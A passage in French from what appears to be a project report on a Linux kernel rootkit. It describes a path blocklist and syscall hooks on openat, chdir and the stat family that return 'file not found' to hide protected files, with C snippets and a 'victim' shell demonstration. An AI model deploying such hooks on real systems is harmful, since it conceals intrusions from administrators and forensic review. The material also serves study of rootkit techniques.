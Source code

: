 #### 4.2.1 Structures

Le mécanisme de filtrage repose sur une unique instance de la structure ulist, définie dans `utils/ulist`, exactement comme précédemment... Cette liste conserve, sous forme de chaînes de chemins absolus, tous les fichiers ou répertoires auxquels on souhaite interdire l’accès. Les fonctions exposées dans `forbid_api.h` permettent de gérer dynamiquement cette liste :
```c
int forbid_init(void);
void forbid_exit(void);
int forbid_file(const char *path);
int unforbid_file(const char *path);
int forbid_contains(const char __user *u_path);
int forbid_list_get(char *buf, size_t buf_size);
```

#### 4.2.2 Interception

Toutes les interceptions sont déclarées et implémentées dans `forbid.c`. On y trouve, dans un premier temps, les pointeurs vers les fonctions noyau d’origine, qui seront sauvegardés au moment de l’installation des hooks.
```c
asmlinkage long (*__orig_openat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_newfstatat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_fstat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_lstat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_stat)(const struct pt_regs *) = NULL;
asmlinkage long (*__orig_chdir)(const struct pt_regs *regs) = NULL;
asmlinkage long (*__orig_ptrace)(const struct pt_regs *regs) = NULL;
```

Pour ce qui est de la fonction `openat` (appelée via `sys_openat`), elle est utilisée pour ouvrir un fichier ou créer un lien. Dans notre hook, on récupère l’argument `pathname` passé par l’espace utilisateur depuis le registre `regs->si`.
```c
asmlinkage long notrace openat_hook(const struct pt_regs *regs) {
    const char __user *u_path = (const char __user *)regs->si;
    if (forbid_contains(u_path))
        return -ENOENT;
    return __orig_openat(regs);
}
```
Ainsi, si le chemin est interdit, le hook renvoie `-ENOENT`, ce qui fait croire au processus qu’il n’existe pas ! Dans le cas contraire, on invoque ici `__orig_openat(regs)` pour ouvrir le fichier normalement.
```bash
root@victim# cat /etc/secret.conf
cat: /etc/secret.conf: No such file or directory
```
Par ailleurs, de nombreux utilitaires reposent sur la famille d’appels systèmes `stat`, `lstat`, `fstat` et `newfstatat` pour obtenir les métadonnées d’un fichier (permissions, taille, propriétaire, etc.). Plutôt que d’installer quatre hooks séparés, nous avons regroupé l’interception de ces quatre appels dans une unique fonction `stat_hook`, qui examine `orig_ax` pour rediriger vers la fonction d’origine appropriée dans la fonction `stat_hook(const struct pt_regs *regs)`. Enfin, l’appel système `chdir` permet à un processus de changer son répertoire de travail courant. Si l’on veut empêcher un utilisateur ou un script de s’avancer dans un dossier jugé sensible, on intercepte aussi `chdir` et on bloque le changement de dossier dès que le chemin se trouve dans la liste `forbid_list`.
```c
asmlinkage long notrace chdir_hook(const struct pt_regs *regs) {
    const char __user *u_path = (const char __user *)regs->di;
    if (forbid_contains(u_path))
        return -ENOENT;
    return __orig_chdir(regs);
}
```
